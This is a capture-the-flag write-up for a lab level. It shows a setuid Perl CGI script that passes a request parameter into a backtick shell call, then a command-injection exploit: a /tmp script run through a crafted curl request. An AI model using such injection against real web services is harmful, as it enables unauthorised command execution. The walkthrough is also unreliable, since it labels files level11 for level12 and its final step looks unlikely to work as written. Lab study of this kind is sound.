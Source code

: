 ``` shell
ls -l
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

Let's inspect `level12.pl`:
``` perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

What is interesting for us:

1. Param `x` is passed to function `t`:
``` perl
n(t(param("x"), param("y")));
```

2. Function `t` performs system call, we'll try to exploit it:
``` perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

3. All lowercase letters in `x` param are replaced with uppercase:
``` perl
$xx = $_[0];
$xx =~ tr/a-z/A-Z/;
```

4. Everything after deleminters is gettings cut:
``` perl
$xx =~ s/\s.*//;
```

So, we can't use lowercase letters and can't use whitespaces.
Let's write a script that retrieves the token:
``` shell
echo "getflag > /tmp/level11.token" > /tmp/level11.exploit
chmod +x /tmp/level11.exploit
```

Next run the perl script like this:
``` shell
EXPLOIT=/tmp/level11.exploit && curl localhost:4646?x='`$EXPLOIT`'
```

**Resources**
https://stackoverflow.com/questions/3638205/whats-the-difference-between-tr-and-s-when-using-regex-in-perl